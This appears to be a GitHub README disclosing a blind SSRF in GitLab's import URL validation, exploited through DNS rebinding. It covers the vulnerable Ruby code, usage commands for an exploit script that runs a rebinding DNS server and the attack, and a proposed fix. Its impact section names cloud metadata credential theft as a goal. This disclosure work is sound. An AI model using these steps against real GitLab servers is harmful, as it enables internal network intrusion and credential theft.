

> Yes, it's a duplicate. Waiting for public disclosure to rename the repo. I found it independently, mass-produced at GitLab apparently.

# GitLab Blind SSRF via DNS Rebinding

Blind SSRF in `POST /import/url/validate`. A Developer-level user can make GitLab's Gitaly service connect to internal IPs by exploiting a DNS rebinding gap between URL validation and the actual connection.

**Affected versions:** >= 17.11, <= latest (tested on 19.5.3-ee). The vulnerable code path (`RemoteService.exists?` without `resolved_address`) was introduced in MR !190545 (released in 18.0, backported to 17.11). Earlier versions used HTTP probing which has separate SSRF protection.

## What is the vulnerability

GitLab validates import URLs using `UrlBlocker.validate!`, which resolves the hostname, checks if the IP is internal, and returns a pinned (safe) IP. But the service that calls it throws away that pinned IP. It then hands the raw hostname to Gitaly, which resolves DNS again on its own. If the DNS answer changes between the two lookups, Gitaly connects to a different IP than the one that was validated.

The attacker controls a DNS server that returns a public IP on the first query (passes validation) and an internal IP on the second query (Gitaly connects to it).

**Vulnerable code** in `app/services/import/validate_remote_git_endpoint_service.rb`:

```ruby
def execute
  if uri && uri.hostname && Project::VALID_IMPORT_PROTOCOLS.include?(uri.scheme)
    ensure_auth_credentials!
    validate_url_security!          # returns [pinned_uri, resolved_ip] but nobody saves it
    return ServiceResponse.success if Gitlab::GitalyClient::RemoteService.exists?(uri.to_s)
    #                                 passes the raw hostname, not the pinned IP
  end
end
```

GitLab already fixed this pattern in another RPC. `update_remote_mirror` passes `resolved_address` to Gitaly. `FindRemoteRepositoryRequest` (used here) does not.

## How the attack works



The two DNS queries happen about 26ms apart. The attacker's DNS server alternates answers with TTL=0, so nothing is cached between them.

## What you need

- A GitLab account with Developer role
- A domain you own (any registrar, around $10/year)
- A VPS to run the DNS server on port 53
- Point your domain's NS records to the VPS

## Setup

### 1. Local GitLab instance

```bash
docker run -d --name gitlab -p 9080:80 gitlab/gitlab-ee:latest
# wait about 5 minutes for it to start
docker exec gitlab cat /etc/gitlab/initial_root_password | grep Password:
```

### 2. DNS rebinding server

On your VPS:

```bash
python exploit.py dns --port 53 --public-ip 93.184.216.34 --internal-ip 127.0.0.1
```

Then set your domain's NS records at your registrar to point to this VPS IP.

For local testing without a real domain, you can run the DNS server inside the container and point the container's resolver at it:

```bash
docker cp exploit.py gitlab:/tmp/exploit.py
docker exec gitlab bash -c "nohup python3 /tmp/exploit.py dns --port 53 --listen 127.0.0.1 --public-ip 93.184.216.34 --internal-ip 127.0.0.1 > /tmp/dns.log 2>&1 &"
docker exec gitlab bash -c "echo 'nameserver 127.0.0.1' > /tmp/r.conf && cat /etc/resolv.conf >> /tmp/r.conf && cp /tmp/r.conf /etc/resolv.conf"
```

### 3. Run the exploit

```bash
pip install requests
python exploit.py attack --gitlab http://localhost:9080 --user root --password <root-password> --domain rebind.yourdomain.com
```

## Impact

- Blind SSRF from the GitLab server to internal networks
- Port scanning through the success/fail response
- Cloud metadata access (169.254.169.254) for credential theft on GCP, AWS, Azure
- Only needs Developer role, which is the lowest role that can import projects
- Works on self-hosted and cloud-hosted GitLab

## Fix

Save the return value from `UrlBlocker.validate!` and pass the resolved IP to Gitaly:

```ruby
validated_uri, hostname = validate_url_security!
Gitlab::GitalyClient::RemoteService.exists?(uri.to_s, resolved_address: hostname)
```

And add `resolved_address` to `FindRemoteRepositoryRequest` in Gitaly's protobuf definition, the same way `UpdateRemoteMirrorRequest` already has it.
